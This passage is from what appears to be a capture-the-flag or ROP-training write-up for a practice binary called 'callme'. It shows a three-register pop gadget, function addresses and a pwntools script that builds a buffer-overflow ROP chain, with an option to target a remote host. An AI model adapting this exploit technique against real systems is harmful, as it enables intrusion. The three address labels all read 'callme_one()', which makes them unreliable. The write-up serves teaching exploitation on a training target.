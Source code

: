 There's a perfect gadget, `pop rdi; pop rsi; pop rdx; ret;`, which pops the three registers before returning located at `0x000000000040093c`.

### Step 4: Writing the Exploit
After locating the required gadget, I moved onto writing the exploits. Again, writing one using `pwntools`, a one-line exploit in Python2, and a one-line exploit in Python3.

**Address of the callme_one() Function:** `0x400720`

**Address of the callme_one() Function:** `0x400740`

**Address of the callme_one() Function:** `0x4006f0`

**Address of the "POP RDI; POP RSI; POP RDX; RET" Gadget:** `0x000000000040093c`

**Arguments:** `0xdeadbeefdeadbeef`, `0xcafebabecafebabe`, and `0xd00df00dd00df00d`

#### The Pwntools Exploit
```
#!/usr/bin/env python3

from pwn import *

# Set the binary context to the local binary
context.binary = binary = ELF("./callme", checksec=False)
context.log_level = "CRITICAL"

# Get the LIBC used for the binary
libc = binary.libc

gdb_script = """
continue
"""

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(args.HOST or exit("[!] Provide a Remote IP."), int(args.PORT or exit("[!] Provide a Remote Port.")))

    elif args.GDB:
        return gdb.debug([binary.path] + argv, gdbscript=gdb_script, *a, **kw)

    else:
        return process([binary.path] + argv, *a, **kw)

# Exploitation code
offset = 40
buffer = b"A"*offset

arguments = p64(0xdeadbeefdeadbeef) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)

# pop rdi; pop rsi; pop rdx; ret
pop_rdi_rsi_rdx = p64(0x000000000040093c)

# The callme_* functions in the order: callme_one, callme_two, and callme_three
callme_functions = [p64(0x400720), p64(0x400740), p64(0x4006f0)]

payload = buffer
for func in callme_functions:
    # POP the registers
    payload += pop_rdi_rsi_rdx
    # Provide the arguments
    payload += arguments
    # Call the function
    payload += func

```